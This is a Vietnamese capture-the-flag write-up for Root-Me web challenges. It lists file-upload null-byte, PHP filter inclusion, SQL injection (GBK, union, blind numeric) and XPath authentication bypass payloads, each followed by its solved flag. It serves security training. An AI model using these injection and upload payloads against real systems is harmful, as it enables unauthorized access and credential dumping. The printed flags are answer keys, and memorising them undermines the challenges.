 #Mục lục:

>[1. HTML]

>[2. Weak password]

>[3. User-agent]

>[4. Backup file]

>[5. HTTP directory indexing]

>[6. HTTP Headers]

>[7. HTTP verb tampering]

>[8. Install files]

>[9. Improper redirect]

>[10. CRLF]

>[11. File upload - double extensions]

>[12. File upload - MIME type]

>[13. HTTP cookies]

>[14. Directory traversal]

>[15. File upload - null byte](#15)

>[16. PHP filters](#16)

>[17. PHP register globals]

>[18. Local File Inclusion]

>[19. Local File Inclusion - Double encoding ]

>[20. PHP type juggling]

>[21. Preg_Replace]

>[22. Remote File Inclusion]

>[23. Server-side Template Injection]

>[24. SQL injection - authentication]

>[25. SQL injection - authentication - GBK](#25)

>[26. SQL injection - string](#26)

>[27. LDAP injection - authentication]

>[28. NoSQL injection - authentication]

>[29. Path Truncation]

>[30. PHP Serialization]

>[31. SQL injection - numeric](#31)

>[32. SQL Truncation]

>[33. XML External Entity]

>[34. XPath injection - authentication](#34)

>[35. Local File Inclusion - Wrappers]

>[36. SQL injection - Error]

>[37. SQL injection - Insert]

>[38. SQL injection - file reading]

>[39. XPath injection - string]

>[40. SQL injection - Time based]

>[41. SQL injection - blind]

>[42. LDAP injection - blind]

>[43. XPath injection - blind]

>[44. SQL injection - filter bypass]

#Nội dung
<a name='15'></a>
##15. File upload - null byte 

[+] URL: `http://challenge01.root-me.org/web-serveur/ch22/?action=upload`

[+] Filter: `shell.php%00.jpg`

[+] Vulnerable: upload nullbyte

[+] File: [shell.php%00.jpg](../prog/shell.php%00.jpg)

[+] Flag: `YPNchi2NmTwygr2dgCCF`
<a name='16'></a>
##16. PHP filters 

[+] URL: `http://challenge01.root-me.org/web-serveur/ch12/`

[+] Filter: 
 ```
 /index.php?inc=php://filter/convert.base64-encode/resource=index.php
 /index.php?inc=php://filter/convert.base64-encode/resource=ch12.php
 /index.php?inc=php://filter/convert.base64-encode/resource=config.php
 ```
[+] Vulnerable: `include()`

[+] flag: `admin:DAPt9D2mky0APAF`
<a name="25"></a>
##25. SQL injection - authentication - GBK 

[+] URL: `http://challenge01.root-me.org/web-serveur/ch42/`

[+] Sql injection: `login=%bf' or 1=1 -- -&password=abc`

[+] Vulnerable: `addslashes()` or `magic_quotes_gpc()`. 

[+] Solution: gbk charset encode

[+] flag: `iMDaFlag1337!`
<a name="26"></a>
##26. SQL injection - string 

[+] URL: `http://challenge01.root-me.org/web-serveur/ch19/?action=recherche`

[+] Sql injection: `' union select (select group_concat(username, password) from users),2  -- -`

[+] Vulnerable: sql string (quote) query

[+] flag: `c4K04dtIaJsuWdi`
<a name='31'></a>
##31. SQL injection - numeric 

[+] URL: `http://challenge01.root-me.org/web-serveur/ch18/`

[+] Sql injection: `1 or (select substr(group_concat(username, password),i,1) from users)=(select char(j))  -- -`

 [-] Trong đó: i là vị trí kí tự trong chuỗi trả về được cắt ra; j là mã ascii của kí tự bruteforce

[+] Vulnerable: sql number query

[+] code: [sqli-numberic.py](../prog/sqli-numberic.py)

[+] flag: `aTlkJYLjcbLmue3`
<a name="34"></a>
##34. XPath injection - authentication 

[+] URL: `http://challenge01.root-me.org/web-serveur/ch23/`

[+] Sql injection: `username=John'+or+'1'='1&password=abc`

[+] Vulnerable: base sqli

[+] flag: `6FkC67ui8njEepIK5Gr2Kwe`